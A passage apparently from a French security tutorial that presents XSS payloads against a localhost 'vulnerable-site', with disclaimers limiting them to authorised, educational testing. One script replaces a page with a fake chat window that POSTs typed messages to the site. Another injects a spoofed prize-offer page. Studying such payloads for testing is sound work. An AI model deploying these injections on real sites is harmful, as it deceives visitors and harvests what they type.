 - **Déclenchement de fausses fenêtres de chat :**
  ```html
  <script>
      document.body.innerHTML = '<div id="chat" style="position:fixed;bottom:0;width:100%;background:#fff;border-top:1px solid #ccc;padding:10px;"><input type="text" id="chatInput" placeholder="Type your message here"><button onclick="sendMessage()">Send</button></div>';
      function sendMessage() {
          var message = document.getElementById('chatInput').value;
          var xhr = new XMLHttpRequest();
          xhr.open('POST', 'http://localhost/vulnerable-site/chat', true);
          xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
          xhr.send('message=' + encodeURIComponent(message));
      }
  </script>
  ```

- **Injection de fausses pages de contenu (content spoofing) :**
  ```html
  <script>
      document.body.innerHTML = '<h1>Exclusive Offer!</h1><p>Click <a href="http://localhost/vulnerable-site/offer.html">here</a> to claim your prize!</p>';
  </script>
  ```

## Remarques importantes

- **N'utilisez ces scripts que dans un environnement contrôlé et à des fins éducatives.**
- **Assurez-vous d'obtenir les permissions nécessaires pour effectuer ces tests sur les systèmes concernés.**

La sécurité informatique est une responsabilité partagée, et l'apprentissage des vulnérabilités doit toujours s'accompagner d'un fort sens de l'éthique et du respect des lois en vigueur.
